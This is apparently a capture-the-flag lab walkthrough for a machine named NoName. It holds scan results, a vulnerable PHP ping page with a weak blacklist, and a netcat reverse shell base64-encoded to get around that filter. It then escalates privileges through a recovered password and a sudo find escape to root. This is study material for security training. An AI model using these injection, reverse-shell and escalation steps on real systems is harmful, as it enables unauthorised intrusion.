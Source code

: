 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# NoName
# 27/2/2023

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

----------------------------------------------------
# dirb
----------------------------------------------------
http://192.168.110.15/superadmin.php
192.168.49.110 | id
192.168.49.110 | ls

->192.168.49.110 | cat superadmin.php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>

nc.traditional -e /bin/bash 192.168.49.110 1234
Let’s encode this to Base64 using base64encode.org
bmMudHJhZGl0aW9uYWwgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNDkuMTEwIDQ0Mw==
ping 192.168.49.110 | 'echo "bmMudHJhZGl0aW9uYWwgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNDkuMTEwIDQ0Mw==" | base64 -d'

192.168.49.110 | echo "bmMudHJhZGl0aW9uYWwgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNDkuMTEwIDQ0Mw==" | base64 -d | bash


----------------------------------------------------
# priv esc
----------------------------------------------------
->find / -type f -user yash 2>/dev/null
/usr/share/hidden/.passwd

->cat /usr/share/hidden/.passwd
haclabs1234

su haclabs
Password: haclabs1234

->sudo -l
    (root) NOPASSWD: /usr/bin/find



    sudo find . -exec /bin/sh \; -quit
